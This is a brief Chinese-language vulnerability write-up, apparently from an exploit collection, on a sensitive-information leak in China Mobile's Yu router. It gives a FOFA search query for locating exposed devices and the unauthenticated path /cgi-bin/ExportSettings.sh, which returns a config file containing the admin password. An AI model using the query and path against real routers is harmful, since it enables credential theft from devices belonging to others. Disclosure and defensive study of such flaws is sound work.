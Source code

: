 ```yaml
---
title: 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 中国移动
---
```


# 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](/img/20210924020255121946.png)

访问Url

```
/cgi-bin/ExportSettings.sh
```

![image-20210618180802731](/img/20210924020255307940.png)

其中password为登录后台密码